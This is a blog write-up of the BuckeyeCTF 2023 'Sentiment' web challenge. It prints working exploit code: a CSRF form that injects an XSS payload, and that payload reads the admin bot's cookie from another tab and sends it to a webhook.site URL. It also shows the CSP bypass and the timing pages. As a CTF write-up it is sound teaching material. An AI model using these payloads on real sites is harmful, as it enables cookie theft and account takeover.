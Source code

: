 ```yaml
---
layout: post
title: "BuckeyeCTF 2023: Sentiment Writeup"
---
```


# BuckeyeCTF 2023: Sentiment writeup

I wasn't able to solve this during the CTF but I figured it out shortly afterwards :(

The tldr is: csrf + xss + window.open trick -> leak admin bot's cookie.

## CSRF
We're given some web server code, which has a bunch of endpoints for editing and displaying notes. The interesting bit here is that the `/` route displays the user's note, which is for some reason stored in their cookie. The first observation is that XSS is trivial: changing the cookie to `<script>alert(1);</script>` pops an alert box.

```
  .get("/", ({ set, cookie: { note }, unsignCookie, setCookie }) => {
    set.headers["Content-Security-Policy"] = "connect-src 'none'";
    set.headers["X-Frame-Options"] = "DENY";

    let noteContent: string = defaultNoteContent;

    if (!note) {
      setCookie("note", defaultNoteContent, { signed: true });
    } else {
      const { valid, value } = unsignCookie(note);

      if (!valid) {
        set.status = 401;
        return "Unauthorized";
      }

      noteContent = value;
    }

    return (
      <BaseHtml title="Sentiment - Note">
        <body>
          <Header selected="note" />
          <div class="content">
            <div class="container">{marked.parse(noteContent)}</div>
          </div>
        </body>
      </BaseHtml>
    );
  })
```

Also, the CSP has `connect-src: none` set, which blocks certain APIs like `fetch` or `XMLHttpRequest`. However, this can be bypassed by, for example, creating an image whose `src` attribute is set to a malicious server (the leaked contents can be appended to the path).

So, given that there is trivial XSS, how can we get the admin bot to fall for it?

The line `setCookie("note", defaultNoteContent, { signed: true });` means that the cookie is signed with some secret value, so in some sense it has to come from the web server itself to be accepted (I imagine their implementation is similar to the way HMAC works).

Digging around further, there is an endpoint called `/edit` that, given some string, returns a signed cookie.

```
  .post(
    "/edit",
    ({ body, setCookie }) => {
      setCookie("note", body.content, { signed: true });
    },
    {
      body: t.Object({
        content: t.String(),
      }),
    }
  )
```

There is no CSRF protection at all, so we could probably get the admin bot to `/edit` their cookie. The first thing I tried was to create a form that would auto-submit upon page load. I was under the assumption that the `Content-Type` had to be `application/json`, since the `/edit` endpoint specifies that body is an Object in its schema. But apparently, exploiting a JSON CSRF is not a trivial task. There seems to be a way to [do it with Flash](https://hackerone.com/reports/44146), but sadly that is not supported on Chrome anymore.

```
<form action="https://sentiment.chall.pwnoh.io/edit" method="POST" enctype="text/plain">
    <input name='{"content": "testmessage.signature' value='"}'>
</form>
```

It turns out, as I often do, I was overthinking it. The web server accepts the `application/x-www-form-urlencoded` MIME type, which is the default for HTML forms. For example:

```
<form action="https://sentiment.chall.pwnoh.io/edit" method="POST">
    <input name='content' value="XSS HERE">
</form>
```

Ok, so we can get CSRF. Now what?

## XSS

At this point, we can execute arbitrary JavaScript on the admin bot's browser by changing their cookie with CSRF. However, if we overwrite the admin's cookie, the flag value will be written as well.

After a lot of Googling, it turns out you can use `window.open` to *save* the admin's cookie in a new tab, *then* use CSRF to modify their cookie to a script that leaks the original cookie, *then* redirect the user to the homepage (aka the `/` route) to trigger the malicious script.

The key idea is that once you have code execution on the document's origin, you can read arbitrary data from other tabs of that same origin without violating SOP.

Here's the exploit:

csrf.html:
```
<form action="https://sentiment.chall.pwnoh.io/edit" method="POST">
    <input name='content' value="<script>let leak = window.open('', 'leak').document.body.textContent; new Image().src = 'https://webhook.site/5dd7dcdd-930d-4bfe-8384-9115bcd513c9/' + btoa(leak);</script>">
</form>


<script>
    // this page, when visited, will do the following things:
    // 1) open / in a new window (this will be used to leak the flag eventually)
    // 2) trigger xss by abusing csrf
    // at this point, the xss will take the / window, then read its contents and send it off to a webook
    // note that this is not blocked by same-origin policy because the xss and admin page are the same origin

    const URL = "https://sentiment.chall.pwnoh.io/";
    window.open(URL, 'leak'); // we name the target "leak", so the xss can access it eventually
    window.open("https://homes.cs.washington.edu/~pyondan/xss.html"); // we would like to simply trigger the xss here, but because of the form it doesn't work :/
    setTimeout(() => { document.forms[0].submit() }, 3000); // use csrf to update the cookie

</script>
```

xss.html
```
<script>
    setTimeout(() => { document.location = 'https://sentiment.chall.pwnoh.io/' }, 5000);
</script>
```

When the admin bot visits our malicious page, it will

1) open a new tab containing the admin's cookie,

2) update the cookie to a script that reads the contents of the tab from step 1, then leaks it to a webhook, and

3) create a new tab at `/` which will trigger the XSS. 

The precise ordering of these events is accomplished through calls to `setTimeout`.

One part that tripped me up was the admin bot's timeout mechanism:
```
await page.goto(body.url, { waitUntil: "load", timeout: 15 * 1000 });
await browser.close();
```
If the page loads or 15 seconds pass (whichever happens first), then the browser is automatically closed. So, the exploit page needs to stall for as long as possible while it runs.

The following php script will accomplish this:
```
<script>
    window.open('csrf.html');
</script>

<?php
sleep(20);
?>
```

Sending the admin to visit this page reveals the flag.

